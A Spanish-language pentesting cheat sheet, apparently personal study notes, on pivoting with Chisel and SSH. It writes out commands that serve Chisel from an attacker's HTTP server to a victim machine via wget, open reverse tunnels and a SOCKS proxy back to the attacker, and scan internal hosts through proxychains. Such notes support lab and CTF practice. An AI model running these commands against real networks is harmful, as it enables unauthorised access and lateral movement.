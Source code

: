 ## Chisel 

Tags: #Chisel #PortForwarding #LocalForwarding #DinamicForwarding 

## Local Port Forwarding 

Nos permite redirigir todo el trafico entrante de un puerto local hacia un puerto remoto.

* **Server -> Windows** 
* **Cliente -> Kali**

#### Forma 1 de descarga
Ingresamos a la pagina para descargarnos 'Chisel'
```python 
❯ https://github.com/jpillora/chisel > Releases > 'chisel_1.9.1_linux_amd64.gz' 
❯ gunzip chisel.gz
❯ chmod +x chisel
```

#### Forma 2 de descarga

1. Podemos clonarlo a nuestra maquina victima 
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

2. Debemos transferirlo a la maquina victima mediante un servidor HTTP 
```bash 
❯ python3 -m http.server 80    # Maquina de atacante 
❯ wget http://IP/chisel        # Maquina victima 
```

#### Forma de ejecutar el Chisel 

* De esta manera nos podemos traer un puerto especifico
```bash
❯ ./chisel server --reverse -p 1234                                                 # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:<Port-Local-a-Abrir>:<IP-Local>:<Port-Traemos> # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
	# Port-Local = Puerto que vamos a traer de la maquina victima
	# IP-Local = IP del Localhost de la maquina victima 
	# Port-Traemos = Puerto que vamos a abrir en nuestra maquina
```

* De esta manera nos crea un túnel desde la maquina de atacante hacia la maquina victima
```bash
❯ ./chisel server --reverse -p 1234                                             # Server 'Maquina de atacante'
❯ ./chisel client <IP-Server>:1234 R:socks                                      # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
     # socks = Abre el puerto 1080 de nuestra de atacante y nos crea un tunel para llegar a la maquina victima 
```

Debemos de hacer los siguientes cambios después de crear el túnel 
```bash 
❯ nano /etc/proxychains.conf 

# Comentamos el Dinamic_chain, este solo se habilita cuando vamos pasando por varios tuneles
# Activamos el strick_chain, este solo es cuando tenemos un tunel 
# Hasta abajo del archivo agregamos lo siguiente:

sock5 127.0.0.1 1080 
```

### Comandos con Proxychain

Forma de verificar y de como debemos de ir colocando los comandos en nuestra maquina de atacante.
* Siempre debemos de usar **'proxychains'** antes de cada comando
```bash 
# NMAP
❯ seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n ❮Target IP❯ 2>&1 | grep "tcp open"      # Proxychains nos ayudara que el comando pase por el tunel creado por chisel 
	# P = Tareas en paralelo
❯ proxychains nmap --top-ports 500 --open -T5 -v -n <IP> -sT -Pn -oG allports 2>&1 | grep -vE "timeout|OK"
❯ proxychains nmap -sT -Pn -sCV -p22,.. <IP> -oN Targeted

# WHATWEB
❯ proxychains whatweb ❮Target IP❯     # Escaneo con whatweb a la maquina victima 
```

## Dinamic Port Forwarding 

Modificaremos:
```bash
❯ nano /etc/proxychains.conf                            # Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080                              # Haremos que la conexion para nuestra maquina se efectue en el puerto 1080
```

```bash
❯ ssh < user>@< IP> -D 1080                             # Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado.
❯ proxychains vncviewer -passwd secret 127.0.0.1:5901   # Nos conectamos por vncviewer y nos arrojara el cuadro remoto de la conexion (5901=puerto remoto expuesto en la maquina victima)

	# secret -> Archivo que contiene la passwd para la conexion
```